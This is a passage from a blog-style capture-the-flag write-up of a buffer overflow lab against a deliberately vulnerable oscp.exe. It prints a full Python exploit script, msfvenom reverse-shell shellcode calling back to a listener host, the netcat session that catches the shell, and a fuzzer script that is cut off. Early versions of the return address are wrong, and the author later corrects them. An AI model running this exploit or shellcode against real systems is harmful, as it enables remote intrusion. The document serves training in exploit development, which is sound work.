A popup window should appear labelled “mona Memory comparison results”. If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file. Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.
We take note of the badchars returned:
00 07 08 2e 2f a0 a1
The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.
Our new Mona byarray command will look like this:
!mona bytearray -b "\x00\x07\x08\xa0\xa1\x2e\x2f"
We update the exploit script and remove all badchars we have indentified. Then guess what?
We restart the debugger and load the oscp.exe file, and unpause again.
We repeat the badchar comparison until the results status returns “Unmodified”. This indicates that no more badchars exist. This means executing the expliot, running the Mona-look-for-bad-chars-command, if there are new badchars we run mona-generate-new-bytearray-excluding-new-badchards-command, update the exploit. Relaunch everything (Immunity and OSCP.exe).
So let’s check for badchars one more time, we take note of the ESP address:
!mona compare -f C:\mona\oscp\bytearray.bin -a 019FFA30
It seems we don’t have any other badchars for now:
Finding a Jump Point
With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
!mona jmp -r esp -cpb "\x00"
Let’s update that command with all the badchars:
!mona jmp -r esp -cpb "\x00\x07\x08\xa0\xa1\x2e\x2f"
This command finds all “jmp esp” (or equivalent) instructions with addresses that don’t contain any of the badchars specified. The results should display in the “Log data” window (use the Window menu to switch to it if needed).
Choose an address and update your exploit.py script, setting the “retn” variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
Ok, we pick up the first address from the list of results. This one:
0x625011af : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
The address is 0x625011af and we reverse that since the system is little indian we get this fa110526x0. When we need to add this address to our exploit in the return address field.
Our python exploit now looks like this:
import socket
ip = "10.10.84.54"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "fa110526x0"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Sending evil buffer...")
s.send(buffer + "\r\n")
print("Done!")
except:
print("Could not connect.")
Generate Payload
Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\xa0\xa1\x2e\x2f" -f py
when we run that command we get this:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\xa0\xa1\x2e\x2f" -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf = b""
buf += b"\xdb\xc0\xd9\x74\x24\xf4\xb8\xe9\xa2\xf5\xe7\x5e\x31"
buf += b"\xc9\xb1\x52\x83\xc6\x04\x31\x46\x13\x03\xaf\xb1\x17"
buf += b"\x12\xd3\x5e\x55\xdd\x2b\x9f\x3a\x57\xce\xae\x7a\x03"
buf += b"\x9b\x81\x4a\x47\xc9\x2d\x20\x05\xf9\xa6\x44\x82\x0e"
buf += b"\x0e\xe2\xf4\x21\x8f\x5f\xc4\x20\x13\xa2\x19\x82\x2a"
buf += b"\x6d\x6c\xc3\x6b\x90\x9d\x91\x24\xde\x30\x05\x40\xaa"
buf += b"\x88\xae\x1a\x3a\x89\x53\xea\x3d\xb8\xc2\x60\x64\x1a"
buf += b"\xe5\xa5\x1c\x13\xfd\xaa\x19\xed\x76\x18\xd5\xec\x5e"
buf += b"\x50\x16\x42\x9f\x5c\xe5\x9a\xd8\x5b\x16\xe9\x10\x98"
buf += b"\xab\xea\xe7\xe2\x77\x7e\xf3\x45\xf3\xd8\xdf\x74\xd0"
buf += b"\xbf\x94\x7b\x9d\xb4\xf2\x9f\x20\x18\x89\xa4\xa9\x9f"
buf += b"\x5d\x2d\xe9\xbb\x79\x75\xa9\xa2\xd8\xd3\x1c\xda\x3a"
buf += b"\xbc\xc1\x7e\x31\x51\x15\xf3\x18\x3e\xda\x3e\xa2\xbe"
buf += b"\x74\x48\xd1\x8c\xdb\xe2\x7d\xbd\x94\x2c\x7a\xc2\x8e"
buf += b"\x89\x14\x3d\x31\xea\x3d\xfa\x65\xba\x55\x2b\x06\x51"
buf += b"\xa5\xd4\xd3\xf6\xf5\x7a\x8c\xb6\xa5\x3a\x7c\x5f\xaf"
buf += b"\xb4\xa3\x7f\xd0\x1e\xcc\xea\x2b\xc9\xf9\xe7\x33\x2b"
buf += b"\x96\xf5\x33\x3a\x3a\x73\xd5\x56\xd2\xd5\x4e\xcf\x4b"
buf += b"\x7c\x04\x6e\x93\xaa\x61\xb0\x1f\x59\x96\x7f\xe8\x14"
buf += b"\x84\xe8\x18\x63\xf6\xbf\x27\x59\x9e\x5c\xb5\x06\x5e"
buf += b"\x2a\xa6\x90\x09\x7b\x18\xe9\xdf\x91\x03\x43\xfd\x6b"
buf += b"\xd5\xac\x45\xb0\x26\x32\x44\x35\x12\x10\x56\x83\x9b"
buf += b"\x1c\x02\x5b\xca\xca\xfc\x1d\xa4\xbc\x56\xf4\x1b\x17"
buf += b"\x3e\x81\x57\xa8\x38\x8e\xbd\x5e\xa4\x3f\x68\x27\xdb"
buf += b"\xf0\xfc\xaf\xa4\xec\x9c\x50\x7f\xb5\xbd\xb2\x55\xc0"
buf += b"\x55\x6b\x3c\x69\x38\x8c\xeb\xae\x45\x0f\x19\x4f\xb2"
buf += b"\x0f\x68\x4a\xfe\x97\x81\x26\x6f\x72\xa5\x95\x90\x57"
Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.
After we do that the script looks like this:
import socket
ip = "10.10.84.54"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "fa110526"
padding = ""
buf = b""
buf += b"\xdb\xc0\xd9\x74\x24\xf4\xb8\xe9\xa2\xf5\xe7\x5e\x31"
buf += b"\xc9\xb1\x52\x83\xc6\x04\x31\x46\x13\x03\xaf\xb1\x17"
buf += b"\x12\xd3\x5e\x55\xdd\x2b\x9f\x3a\x57\xce\xae\x7a\x03"
buf += b"\x9b\x81\x4a\x47\xc9\x2d\x20\x05\xf9\xa6\x44\x82\x0e"
buf += b"\x0e\xe2\xf4\x21\x8f\x5f\xc4\x20\x13\xa2\x19\x82\x2a"
buf += b"\x6d\x6c\xc3\x6b\x90\x9d\x91\x24\xde\x30\x05\x40\xaa"
buf += b"\x88\xae\x1a\x3a\x89\x53\xea\x3d\xb8\xc2\x60\x64\x1a"
buf += b"\xe5\xa5\x1c\x13\xfd\xaa\x19\xed\x76\x18\xd5\xec\x5e"
buf += b"\x50\x16\x42\x9f\x5c\xe5\x9a\xd8\x5b\x16\xe9\x10\x98"
buf += b"\xab\xea\xe7\xe2\x77\x7e\xf3\x45\xf3\xd8\xdf\x74\xd0"
buf += b"\xbf\x94\x7b\x9d\xb4\xf2\x9f\x20\x18\x89\xa4\xa9\x9f"
buf += b"\x5d\x2d\xe9\xbb\x79\x75\xa9\xa2\xd8\xd3\x1c\xda\x3a"
buf += b"\xbc\xc1\x7e\x31\x51\x15\xf3\x18\x3e\xda\x3e\xa2\xbe"
buf += b"\x74\x48\xd1\x8c\xdb\xe2\x7d\xbd\x94\x2c\x7a\xc2\x8e"
buf += b"\x89\x14\x3d\x31\xea\x3d\xfa\x65\xba\x55\x2b\x06\x51"
buf += b"\xa5\xd4\xd3\xf6\xf5\x7a\x8c\xb6\xa5\x3a\x7c\x5f\xaf"
buf += b"\xb4\xa3\x7f\xd0\x1e\xcc\xea\x2b\xc9\xf9\xe7\x33\x2b"
buf += b"\x96\xf5\x33\x3a\x3a\x73\xd5\x56\xd2\xd5\x4e\xcf\x4b"
buf += b"\x7c\x04\x6e\x93\xaa\x61\xb0\x1f\x59\x96\x7f\xe8\x14"
buf += b"\x84\xe8\x18\x63\xf6\xbf\x27\x59\x9e\x5c\xb5\x06\x5e"
buf += b"\x2a\xa6\x90\x09\x7b\x18\xe9\xdf\x91\x03\x43\xfd\x6b"
buf += b"\xd5\xac\x45\xb0\x26\x32\x44\x35\x12\x10\x56\x83\x9b"
buf += b"\x1c\x02\x5b\xca\xca\xfc\x1d\xa4\xbc\x56\xf4\x1b\x17"
buf += b"\x3e\x81\x57\xa8\x38\x8e\xbd\x5e\xa4\x3f\x68\x27\xdb"
buf += b"\xf0\xfc\xaf\xa4\xec\x9c\x50\x7f\xb5\xbd\xb2\x55\xc0"
buf += b"\x55\x6b\x3c\x69\x38\x8c\xeb\xae\x45\x0f\x19\x4f\xb2"
buf += b"\x0f\x68\x4a\xfe\x97\x81\x26\x6f\x72\xa5\x95\x90\x57"
payload = buf
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
s.connect((ip, port))
print("Sending evil buffer...")
s.send(buffer + "\r\n")
print("Done!")
except:
print("Could not connect.")
Prepend NOPs
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more “No Operation” (\x90) bytes:
padding = "\x90" * 16
Exploit!
With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell. Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn’t change it).
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
I’m doing something wrong since I’m not getting any reverse shell at all, and the debugger is also showing an error…
Time to recheck everything to try and find the problem. Maybe we picked a wrong address…
I’m failing at locating the problem with all this. Will have to pick up tomorrow, it is 3:32AM already. Tomorrow we’ll troubleshoot this.
[Off to bed.] => [zZZzzzZZZZzz] => [The next morning]
Ok let’s try to figure out what went wrong with all the steps we did, since we were unable to get the reverse shell connection we assume we did something wrong at some point.
Turns out I did a poor job at identifying the badchars. It seems not all of them were indeed bad:
These were the chars we found before:
00 07 08 2e 2f a0 a1
If we do it right this time, which means testing each bad char to actually verfiy which are indeed bad. We reduce the list to this:
07 2e a0
So now we need to fix and update Mona’s bytearray:
!mona bytearray -b "\x00\x07\x2e\xa0"
We also need to fix the payload we created with MSFVENOM:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf = b""
buf += b"\xbb\xd4\x93\xce\xb2\xda\xdb\xd9\x74\x24\xf4\x5e\x29"
buf += b"\xc9\xb1\x52\x31\x5e\x12\x03\x5e\x12\x83\x12\x97\x2c"
buf += b"\x47\x66\x70\x32\xa8\x96\x81\x53\x20\x73\xb0\x53\x56"
buf += b"\xf0\xe3\x63\x1c\x54\x08\x0f\x70\x4c\x9b\x7d\x5d\x63"
buf += b"\x2c\xcb\xbb\x4a\xad\x60\xff\xcd\x2d\x7b\x2c\x2d\x0f"
buf += b"\xb4\x21\x2c\x48\xa9\xc8\x7c\x01\xa5\x7f\x90\x26\xf3"
buf += b"\x43\x1b\x74\x15\xc4\xf8\xcd\x14\xe5\xaf\x46\x4f\x25"
buf += b"\x4e\x8a\xfb\x6c\x48\xcf\xc6\x27\xe3\x3b\xbc\xb9\x25"
buf += b"\x72\x3d\x15\x08\xba\xcc\x67\x4d\x7d\x2f\x12\xa7\x7d"
buf += b"\xd2\x25\x7c\xff\x08\xa3\x66\xa7\xdb\x13\x42\x59\x0f"
buf += b"\xc5\x01\x55\xe4\x81\x4d\x7a\xfb\x46\xe6\x86\x70\x69"
buf += b"\x28\x0f\xc2\x4e\xec\x4b\x90\xef\xb5\x31\x77\x0f\xa5"
buf += b"\x99\x28\xb5\xae\x34\x3c\xc4\xed\x50\xf1\xe5\x0d\xa1"
buf += b"\x9d\x7e\x7e\x93\x02\xd5\xe8\x9f\xcb\xf3\xef\xe0\xe1"
buf += b"\x44\x7f\x1f\x0a\xb5\x56\xe4\x5e\xe5\xc0\xcd\xde\x6e"
buf += b"\x10\xf1\x0a\x20\x40\x5d\xe5\x81\x30\x1d\x55\x6a\x5a"
buf += b"\x92\x8a\x8a\x65\x78\xa3\x21\x9c\xeb\xc6\xb8\x9e\xc9"
buf += b"\xbe\xc0\x9e\x1c\x63\x4c\x78\x74\x8b\x18\xd3\xe1\x32"
buf += b"\x01\xaf\x90\xbb\x9f\xca\x93\x30\x2c\x2b\x5d\xb1\x59"
buf += b"\x3f\x0a\x31\x14\x1d\x9d\x4e\x82\x09\x41\xdc\x49\xc9"
buf += b"\x0c\xfd\xc5\x9e\x59\x33\x1c\x4a\x74\x6a\xb6\x68\x85"
buf += b"\xea\xf1\x28\x52\xcf\xfc\xb1\x17\x6b\xdb\xa1\xe1\x74"
buf += b"\x67\x95\xbd\x22\x31\x43\x78\x9d\xf3\x3d\xd2\x72\x5a"
buf += b"\xa9\xa3\xb8\x5d\xaf\xab\x94\x2b\x4f\x1d\x41\x6a\x70"
buf += b"\x92\x05\x7a\x09\xce\xb5\x85\xc0\x4a\xd5\x67\xc0\xa6"
buf += b"\x7e\x3e\x81\x0a\xe3\xc1\x7c\x48\x1a\x42\x74\x31\xd9"
buf += b"\x5a\xfd\x34\xa5\xdc\xee\x44\xb6\x88\x10\xfa\xb7\x98"
And then we need to updated this new payload in the exploit script. Then we restart Immunity Debugger, oscp.exe and you know the rest…
Let’s try to run the exploit again. Remember to have a netcat listener on port 4444 ready:
SPOILER ALERT!: That didn’t work either, and you know why? Because I also fucked it up with the JMP address:
retn = "fa110526" (what I noob I am, I know 😄 )
Little I knew about the address format we should be using, it turns out its not enough with just “reversing” the digits (I even did that wrong 😆), you need to format it as an address and Little indian:
- So this is the address
625011AF - and we format it as follows:
\xaf\x11\x50\x62
Now let’s update our exploit with the correct address this time (yup, I’m learning. I embrace mistakes XD).
[Takes a deep breath] Ok, let’s restart everything and run the exploit again:
it worked!! The program did not crash this time:
And we got our reverse shell back!:
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.13.0.34] from (UNKNOWN) [10.10.221.158] 49267
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\admin\Desktop\vulnerable-apps\oscp>
With this we can access the room questions!
Question #1 What is the EIP offset for OVERFLOW1?
We got that one a while back, the offset we found 1978.
Question #2: In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW1?
We got those already, after I fucked it up I know. "\x00\x07\x2e\xa0"
That’s it for OVERFLOW1!
For the rest of the room we basically need to repeat the same process but for each OVERFLOW command. This time trying to avoid messing up things XD
TASK 2 - [oscp.exe - OVERFLOW2]
Before we start doing anything let’s turn on the volume and play the track for this OVERFLOW2 section!
Vulfpeck - Disco Ulysses
Crank that volume up!
[Almost two days later 😜 ]
I took some time off this to learn a bit more about buffer overlows as it started to feel like I knew less than before at some point. Anyways, we are back. I’ll point to some resources I found useful when I was trying to understand this stuff:
- https://www.youtube.com/watch?v=1S0aBV-Waeo
- https://youtu.be/j7AEzGKuKUU
- https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G
While we enjoy Joe Dart’s groove, let’s start with the second OVERFLOW command! so we can answer the following two questions:
Question #1: What is the EIP offset for OVERFLOW2?
Question #2: In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2?
We need to basically recreate the same process we followed for the first overflow. Let’s outline that process to recall all parts:
- We Fuzz the executable.
- We crash the app and get control of the EIP.
- We locate the bad characters
- We find and select a Jump Point
- We then generate our payload code
- We make sure to add our NOP sleds.
- We exploit.
Let’s fuzz
Let’s grab a copy of that fuzzer script from the previous task. We need to update the following things: IP, Prefix. Note: Instead of having the prefix hardcoded we have it in a variable so we can rehuse faster for the next set of overflow tasks.
In my case it looks like this:
import socket, time, sys
ip = "10.10.98.134"
port = 1337
timeout = 5
buffer = []
counter = 0
step = 50
prefix = "OVERFLOW2 "
while len(buffer) < 30:
buffer.append("A" * counter)
counter += step
for string in buffer:
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
connect = s.connect((ip, port))
s.recv(1024)
print("Fuzzing with %s bytes" % len(string))
s.send( prefix + string + "\r\n")
s.recv(1024)
s.close()
except:
